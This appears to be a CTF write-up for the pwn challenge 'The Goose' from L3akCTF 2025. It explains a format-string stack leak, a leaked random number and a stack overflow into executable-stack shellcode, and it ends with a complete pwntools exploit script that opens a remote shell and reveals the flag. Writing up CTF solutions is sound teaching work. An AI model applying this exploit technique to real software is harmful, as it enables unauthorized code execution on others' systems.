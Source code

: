 ```yaml
---
title: The Goose
type: writeup
date: 2025-07-14T21:39:11+03:00
description: Writeup for The Goose [L3akCTF_2025s]
author: vikcoc
tags:
- pwn
draft: false
---
```

___

## Challenge Description

When the honking gets tough, you better brush up on your basics

We are greeted by a goose, that asks us to guess a number. If we guess correctly we get to write a message to the world.

## Intuition

The protections enabled on the binary tell us that we probably are expected to execute a shell payload from the stack.
```bash
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
```

## Solution

Sifting through the code with Ghidra we see that `highscore` is an interesting function\
There is a printf where we control the format string followed by a read of greater size than the stack frame of `0x170`.
```C
  printf("what\'s your name again?");
  __isoc99_scanf(&DAT_001024eb,local_78);
  local_d9 = 0;
  sprintf(local_f8,(char *)&local_58,local_78);
  printf(local_f8);
  read(0,local_178,0x400);
  printf("got it. bye now.");
```
Where `sprintf` is like `printf` but instead of printing it puts the result in `local_f8`.\
To get there though, we must guess a random number generated by the process.
```C
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  setuser();
  iVar1 = rand();
  nhonks = iVar1 % 0x5b + 10;
  iVar1 = guess();
  if (iVar1 == 0) {
    puts("tough luck. THE GOOSE WINS! GET THE HONK OUT!");
  }
  else {
    highscore();
  }
```
The number is generated before we are asked to guess, which suggests, that it too, must be leaked.\
If we search for it at runtime, we can find it with the global variables, right after the username. Username that gets printed after the number is generated.\
With a long username set in the `setuser` function we get to leak the random value.
```python
position_of_leaked_rand = -18
print(target.sendlineafter(b'e call you?', b'a' * 0x40).decode())
line = target.recvuntil(b'?', timeout=2)
target.sendline(str(line[position_of_leaked_rand]).encode())
```
We send it right back to get access to the `highscore` function.\
There we are asked to input another string, which gets to be the template string for printf, function that we can exploit to leak values on the stack[^1].
```python
print(target.sendlineafter(b'again?', b'%1$p').decode())
line = target.recvuntil(b'so good',timeout=2)
```
Turns out that, on position 1, there is a stack address which we can use to compute the value of `RBP`.\
After that it's just a matter of crafting a shellcode payload, which pwntools can provide.
```python
import pwn
pwn.context.terminal = ['konsole', '-e']

target = pwn.remote('34.45.81.67', 16004)

# leak rand number on .data
position_of_leaked_rand = -18
print(target.sendlineafter(b'e call you?', b'a' * 0x40).decode())
line = target.recvuntil(b'?', timeout=2)
target.sendline(str(line[position_of_leaked_rand]).encode())

# leak stack address
print(target.sendlineafter(b'again?', b'%1$p').decode())
line = target.recvuntil(b'so good',timeout=2)
print(line.decode())

stack_add_pos = 4
offset_to_rbp = 0x4A
rbpaddr = int(line[stack_add_pos:stack_add_pos+14].decode(), base=16) + offset_to_rbp
print(hex(rbpaddr))

# build shell
pwn.context.arch = 'amd64'
buffer_size = 0x170
binshlen = rbplen = 0x8
shell = pwn.asm(pwn.shellcraft.sh())
pay = b'/bin/sh\0' + shell + b'b' * (buffer_size - binshlen - len(shell)) + b'c' * rbplen + pwn.p64(rbpaddr - buffer_size + binshlen)

print(target.sendlineafter(b'world?', pay).decode())

target.interactive()
```
And read the flag with the shell.

### Flag

`L3AK{H0nk_m3_t0_th3_3nd_0f_l0v3}`

## References

[^1]: https://pagedout.institute/download/PagedOut_004_beta1.pdf page 54
